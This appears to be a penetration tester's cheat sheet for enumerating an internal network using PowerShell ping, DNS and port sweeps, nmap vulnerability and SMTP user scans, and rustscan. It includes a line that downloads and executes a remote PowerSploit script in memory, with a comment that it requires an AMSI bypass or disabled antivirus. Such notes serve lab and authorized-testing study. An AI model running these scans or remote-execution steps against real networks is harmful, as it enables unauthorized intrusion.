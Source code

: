 
There are multiple ways to enumerate the network, but here are a couple different methods that don't require any tunneling or port forwarding.

### Powershell
---

```powershell
# See other computers that have touched the current one in some way
net view

# View networking information (including if the box is dual NIC'd)
ipconfig /all

# /24 Ping Sweep
$TargetNetwork = "<first.three.octets>"
1..255 | % {echo "$TargetNetwork.$_"; ping -n 1 -w 100 "$TargetNetwork.$_" | Select-String ttl}

# /24 NSLOOKUP Scan
$TargetNetwork = "<first.three.octets>"
1..255 | % {echo "IP: $TargetNetwork.$_"; nslookup "$TargetNetwork.$_" | Select-String Name >> 192-168-1-0.txt}

# 1024 Port Scan (Very Slow)
$TargetIP = "<ip_address>"
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect($TargetIP,$_)) "Port $_ is open!"} 2>$null

# Load "Invoke-PortScan.ps1" into session.  
# - Already on Kali, or can be downloaded from: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1
# - Requires AMSI bypass or disabled AV
iex ([System.Net.WebClient]::new().DownloadString('<script_url>'))
Invoke-Portscan -Hosts 192.168.1.1/24 -TopPorts 25
```


### Nmap
---
- TCP Scan ALL ports, get OS info, and do a vulnerability scan (loud)
```bash
sudo nmap <ip_addr></CIDR> -p- -A --script vuln
```

If above returns nothing, attempt a UDP scan.  Either add ``-Pn`` or ``-sU`` for a UDP scan.

- UDP Scan
```bash
nmap -sU <ip_addr></CIDR>
```

- If SMTP (port 25) is open, we attempt to enumerate mail users.
```shell
nmap --script smtp-enum-users.nse <ip_addr>
```

### Rustscan
---
``rustscan`` is effectively a wrapper for ``nmap`` written in rust -- by default it rapidly scans ALL ports then feeds the up ports to ``nmap`` for a more granular enumeration.

##### Installation
```shell
# Install Rust and Cargo
curl https://sh.rustup.rs -sSf | sh
rustup
# Install Rustscan
cargo install rustscan
```

##### Usage
```bash
rustscan -a <hostname or IP/CIDR> --ulimit 500 -- <nmap_args>
# -a = target address(s) / network
# -u = adjusts the amount of open sockets at a given time
# -- = pass nmap arguments to rustscan
```
- Note: ``ulimit`` of 500 slows the scan down, but prevents (rare) false positives

```shell
# Example:
rustscan -a 192.168.108.124 -u 500 -- -A --script vuln
```
![[Pasted image 20230306133814.png]]
